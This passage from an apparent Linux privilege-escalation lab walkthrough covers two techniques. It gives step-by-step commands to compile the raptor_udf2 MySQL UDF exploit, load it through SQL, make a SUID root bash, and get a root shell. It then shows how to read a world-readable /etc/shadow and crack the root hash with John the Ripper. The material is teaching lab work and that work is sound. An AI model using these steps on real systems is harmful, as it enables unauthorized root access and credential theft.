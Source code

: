 Compile the raptor_udf2.c exploit code using the following commands:

```bash
gcc -g -c raptor_udf2.c -fPIC
gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
```

Connect to the MySQL service as the root user with a blank password:

```bash
mysql -u root
```

Execute the following commands on the MySQL shell to create a User Defined Function (UDF) "do_system" using our compiled exploit:

```sql
use mysql;
create table foo(line blob);
insert into foo values(load_file('/home/user/tools/mysql-udf/raptor_udf2.so'));
select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';
create function do_system returns integer soname 'raptor_udf2.so';
```

Use the function to copy /bin/bash to /tmp/rootbash and set the SUID permission:

```sql
select do_system('cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash');
```

Exit out of the MySQL shell (type exit or \q and press Enter) and run the /tmp/rootbash executable with -p to gain a shell running with root privileges:

```bash
/tmp/rootbash -p
```

## 3. Weak File Permissions - Readable /etc/shadow

The /etc/shadow file contains user password hashes and is usually readable only by the root user.

Note that the /etc/shadow file on the VM is world-readable:

```bash
ls -l /etc/shadow
```

View the contents of the /etc/shadow file:

```bash
cat /etc/shadow
```

Each line of the file represents a user. A user's password hash (if they have one) can be found between the first and second colons (:) of each line.

Save the root user's hash to a file called hash.txt on your Kali VM and use john the ripper to crack it. You may have to unzip /usr/share/wordlists/rockyou.txt.gz first and run the command using sudo depending on your version of Kali:

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```
